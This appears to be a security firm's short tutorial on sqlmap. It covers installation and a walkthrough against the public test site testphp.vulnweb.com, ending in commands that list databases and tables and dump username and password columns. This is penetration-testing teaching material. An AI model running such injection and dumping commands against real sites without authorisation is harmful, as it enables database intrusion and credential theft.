 SQLMAP
============

Automatic SQL injection and database takeover tool

![ ](https://briskinfosec.com//assets/tooloftheday/Copy_of_Briskinfosec_TOD_Latest_samples_178.jpg)


Details:
============
|  Details | Description   |
| ------------ | ------------ |
|  Tool Name |  SQLMAP |
|  Category | Web Application  |
|  Purpose | sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester, and a broad range of switches including database fingerprinting, over data fetching from the database, accessing the underlying file system, and executing commands on the operating system via out-of-band connections.  |
|  License |    Opensource|

Demo Video:
-----------------
Click Here for [Video](https://www.youtube.com/watch?v=RKgO1penBtk  "Video")


Blog: 
--------------
Click Here for [Blog](https://briskinfosec.com/tooloftheday/toolofthedaydetail/SQLMAP "Blog")

Installation
----------------

To install SQLmap we can pull it  from above github link or we can use below command 

- apt-get install sqlmap

It comes installed by default in kali linux...

To use sqlmap to exploit SQLi flaw

1.First we need to find a SQLi vulnerable parameter in a web app

- testphp.vulnweb.com/listproducts.php?cat=2' 

 Adding a single quote showed this site parameter cat is vulnerable 

2.We can launch sqlmap to dump Databases, tables and cloumns and Data from the vulnerable site

Note: Using Sqlmap for exploitation without proper permission is illegal

-  -u url -p parameter
- --dbs databases
- --tables to get tables
- --columns to get columns

Sqlmap may take a lot of time as it will try lot of sqli techniques based on target SQL server (mysql, mssql, oracle etc.,)

Once we got DB, we can fetch tables and columns

    sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=2 -p cat -D acuart --tables

Lets dump user and pass info from users table

    sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=2 -p cat -D acuart -T users -C uname,pass --dump

In this way SQLmap can be used to exploit blind SQLi vulnerability also.

------------


Links
----------------

 ![ ](https://img.icons8.com/color/15/000000/youtube-play.png) [Briskinfosec Youtube Channel](https://www.youtube.com/channel/UCcPmqqYETcO_7-6p_uUsF1w "Briskinfosec Youtube Channel")


 ![ ](https://img.icons8.com/glyph-neue/15/000000/github.png) [Github](https://github.com/briskinfosec "Github") 

  ![ ](https://img.icons8.com/ios/15/000000/internet--v2.png) [Our Website](https://www.briskinfosec.com/ "Our Website")